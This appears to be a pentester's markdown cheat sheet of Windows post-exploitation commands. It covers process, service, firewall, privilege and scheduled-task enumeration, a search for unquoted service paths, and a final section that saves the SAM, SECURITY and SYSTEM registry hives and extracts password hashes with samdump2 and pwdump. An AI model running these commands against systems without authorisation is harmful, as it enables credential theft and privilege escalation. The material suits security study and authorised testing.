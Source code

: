 #### tasklist run by current user

```tasklist -v```

-----


#### accesschk

*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```

-----


#### firewall

```netsh firewall show state```

```netsh firewall show config```

-----


#### privs

```whoami /priv```

-----


#### scheduled tasks

```schtasks /query /fo list /v```

-----


#### file privs

```dir file.txt /s /p```

```icacls "c:\program files\whatever"```

-----


#### wmic

```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```

-----


#### SAM dump

*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```

-----



